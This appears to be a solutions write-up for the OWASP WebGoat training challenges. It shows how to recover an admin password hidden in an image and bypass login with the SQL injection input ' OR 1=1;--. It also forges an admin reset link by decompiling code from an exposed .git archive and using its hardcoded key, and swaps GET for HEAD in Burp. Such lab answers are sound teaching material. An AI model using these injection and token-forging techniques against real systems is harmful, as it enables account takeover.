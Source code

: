 # Admin lost password
1. Download image from the website.
2. $ strings logo.png
3. in the output find:

admin:!!webgoat_admin_7753!!

# Without password
1. Simple SQL Injection
2. type in password: 'OR 1=1;--

# Admin password reset
1. Check here: https://github.com/WebGoat/WebGoat/blob/develop/src/main/java/org/owasp/webgoat/lessons/challenges/challenge7/Assignment7.java
2. find that there is 

@GetMapping(value = "/challenge/7/.git", produces = MediaType.APPLICATION_OCTET_STREAM_VALUE)
@ResponseBody
public ClassPathResource git() {
	return new ClassPathResource("challenge7/git.zip");
}

3. download git.zip from http://localhost:8080/WebGoat/challenge/7/.git
4. open directory
5. $ git log
6. $ git restore *
7. decompile PasswordResetLink.class on https://jdec.app/

import java.util.Random;

// 
// Decompiled by Procyon v0.5.36
// 

public class PasswordResetLink
{
    public String createPasswordReset(final String s, final String s2) {
        final Random random = new Random();
        if (s.equalsIgnoreCase("admin")) {
            random.setSeed(s2.length());
        }
        return scramble(random, scramble(random, scramble(random, MD5.getHashString(s))));
    }
    
    public static String scramble(final Random random, final String s) {
        final char[] charArray = s.toCharArray();
        for (int i = 0; i < charArray.length; ++i) {
            final int nextInt = random.nextInt(charArray.length);
            final char c = charArray[i];
            charArray[i] = charArray[nextInt];
            charArray[nextInt] = c;
        }
        return new String(charArray);
    }
    
    public static void main(final String[] array) {
        if (array == null || array.length != 2) {
            System.out.println("Need a username and key");
            System.exit(1);
        }
        final String str = array[0];
        final String s = array[1];
        System.out.println("Generation password reset link for " + str);
        System.out.println("Created password reset link: " + new PasswordResetLink().createPasswordReset(str, s));
    }
}

8. So we will need username (admin) and key (?)
9. $ git diff f9400 ac937c -> shows taht there is a change in bin PasswordResetLink
10. decompile this version of the PasswordResetLink bin

/* Decompiler 5ms, total 161ms, lines 38 */
import java.util.Random;

public class PasswordResetLink {
   public String createPasswordReset(String var1, String var2) {
      Random var3 = new Random();
      if (var1.equalsIgnoreCase("admin")) {
         var3.setSeed((long)var2.length());
      }

      return scramble(var3, scramble(var3, scramble(var3, MD5.getHashString(var1))));
   }

   public static String scramble(Random var0, String var1) {
      char[] var2 = var1.toCharArray();

      for(int var3 = 0; var3 < var2.length; ++var3) {
         int var4 = var0.nextInt(var2.length);
         char var5 = var2[var3];
         var2[var3] = var2[var4];
         var2[var4] = var5;
      }

      return new String(var2);
   }

   public static void main(String[] var0) {
      if (var0 == null || var0.length != 1) {
         System.out.println("Need a username");
         System.exit(1);
      }

      String var1 = var0[0];
      String var2 = "!!keykeykey!!";
      System.out.println("Generation password reset link for " + var1);
      System.out.println("Created password reset link: " + (new PasswordResetLink()).createPasswordReset(var1, var2));
   }
}

11. here we have password (!!keykeykey!!)
12. then $ java PasswordResetLink admin -> 375afe1104f4a487a73823c50a9292a2
13. type: gabriel@webgoat.com in reset field
14. open WebWolf
15. see reset link, click it
16. replace url with 375afe1104f4a487a73823c50a9292a2 
    
# Without account
1. open Burp
2. replace GET in request with HEAD